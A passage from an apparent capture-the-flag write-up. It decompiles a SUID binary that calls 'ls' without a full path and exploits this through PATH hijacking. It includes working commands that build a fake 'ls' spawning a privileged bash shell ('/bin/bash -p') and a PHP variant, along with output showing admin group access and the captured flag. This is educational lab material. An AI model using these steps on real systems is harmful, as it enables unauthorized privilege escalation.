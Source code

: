 The last one is the binary `list_uploads`, which only has executing permissions, but it is a **SUID** (setuid) permission as the admin user! So, if we can somehow exploit this, we can get permission as the admin user.

Because the uploads folder is owned by root and it only has WX permissions, the list_uploads program can’t view the contents of the folder. That’s also the reason for the comment in the _index.php_ file

Using ghidra we can decompile the `list_uploads` binary to understand how it works. let's look at it!

```c
void main(void)
{
    __gid_t __rgid;

    setbuf((FILE *)_IO_2_1_stdout_,(char *)0x0);
    setbuf((FILE *)_IO_2_1_stdin_,(char *)0x0);
    __rgid = getegid();
    setresgid(__rgid,__rgid,__rgid);
    system('ls /var/www/html/uploads');
    return;
}
```
In this case, we found that the binary is using the `system()` function to call the ls function, the mistake with this binary is that the full path for `ls` is not specified. This is a security issue for programs with SUID because it means that it will rely on the `$PATH` variable to determine where the `ls` binary is and will run it with elevated privileges, this means if we were able to alter the `$PATH` variable we can make it execute our own `ls` binary!

But since chmod and chown are deleted from the box, we can't make our `ls` binary executable on that box, but there is a way around it! we can craft our binary on our machine and send it over to our folder in the `/abyss/`{: .filepath}, or we could use any programming language that uses the chmod  

here is an example in C language: 

```bash
echo int main(int argc, char **argv) {system("/bin/bash -p");} > ls.c
gcc ls.c -o ls
PATH=/abyss/your_abyss_folder/:$PATH  /list_uploads
```
and if we did the `ID` command we can indeed see that we are admin user!

```bash
id
uid=998(ctf) gid=999(admin) groups=999(admin)
/bin/cat /flag.txt
actf{w4tch_y0ur_p4th_724248b559281824}
```

Another one using PHP:

```bash
echo '/bin/cat /flag.txt' > /abyss/your_abyss_folder/ls
echo "<? php chmod('/abyss/your_abyss_folder/ls',0777); ?>" > /abyss/your_abyss_folder/chmod.php
php /abyss/your_abyss_folder/chmod.php
PATH=/abyss/your_abyss_folder/ls PWD=/abyss/your_abyss_folder/ /list_uploads
'actf{w4tch_y0ur_p4th_724248b559281824}'
```
